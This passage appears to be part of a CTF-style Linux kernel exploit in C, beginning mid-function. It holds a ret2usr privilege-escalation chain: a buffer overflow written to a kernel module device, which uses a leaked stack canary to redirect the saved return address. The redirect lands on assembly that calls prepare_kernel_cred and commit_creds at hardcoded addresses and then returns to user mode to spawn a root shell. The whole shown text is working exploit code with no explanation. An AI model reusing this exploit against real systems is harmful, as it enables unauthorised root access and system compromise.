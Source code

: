 ```c
    if (getuid() == 0)
    {
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    }
    else
    {
        printf("[!] UID: %d, didn't get root\n", getuid());
        exit(-1);
    }
}

unsigned long user_rip = (unsigned long)get_shell + 1;

unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_state()
{
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;");
    puts("[*] Saved state");
}

void escalate_privs(void)
{
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" // prepare_kernel_cred
        "xor rdi, rdi;"
        "call rax; mov rdi, rax;"
        "movabs rax, 0xffffffff814c6410;" // commit_creds
        "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;");
}

void write_module()
{
    long int tmp[0x20];
    memset(tmp, 'a', 0x10 * 8);
    tmp[0x10] = canary;
    tmp[0x11] = 0;                        // pop rdx
    tmp[0x12] = 0;                        // pop r12
    tmp[0x13] = 0;                        // pop r12
    tmp[0x14] = (long int)escalate_privs; // saved rip
    int check = write(fd_ko, tmp, sizeof(tmp));
```